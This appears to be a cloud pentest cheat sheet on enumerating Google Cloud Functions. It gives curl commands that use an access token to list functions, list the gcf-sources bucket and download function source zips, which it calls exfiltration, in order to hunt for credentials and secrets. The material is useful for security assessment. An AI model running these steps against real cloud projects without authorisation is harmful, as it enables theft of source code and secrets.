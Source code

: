 # Google Cloud Functions GCF Enumeration

## Description

### Google Cloud Function code gets stored in a Google Cloud Storage bucket. Although we currently don't know the exact bucket name, it's worth noting that GCP uses a predictable naming format for Cloud Function buckets! The bucket naming format is gcf-sources-BUILD_NUMBER-REGION

## Format

#### 1) gcf-sources : A hardcoded value

#### 2) 212055223570 : The build number (included above with the buildName key)

#### 3) us-central1: The region

## Commands

    curl -H "Authorization: Bearer $ACCESS_TOKEN" \
    "https://cloudfunctions.googleapis.com/v1/projects/PROJECT_NAME/locations/-/functions" (Enumerate functions via the GCP API)

### Set bucket name as a variable

    BUCKET_NAME="gcf-sources-212055223570-us-central1" (Example)

### Make a request to list the bucket contents

    curl -X GET -H "Authorization: Bearer $ACCESS_TOKEN" "https://storage.googleapis.com/storage/v1/b/$BUCKET_NAME/o"

## We can now exfiltrate the source code and inspect it! Using Google's Storage API we download the zip file (example):

    FILE_URL="https://www.googleapis.com/download/storage/v1/b/gcf-sources-212055223570-us-central1/o/function-1-8678e4fb-cf43-4d97-b877-6512729bdba4%2Fversion-2%2Ffunction-source.zip?generation=1708197786687849&alt=media"

## Download the file with GCP authentication

    curl -o function-source.zip -H "Authorization: Bearer $ACCESS_TOKEN" "$FILE_URL"

    unzip function-source.zip (Unzip the function file to inspect the source code for credentials/secrets/etc.)
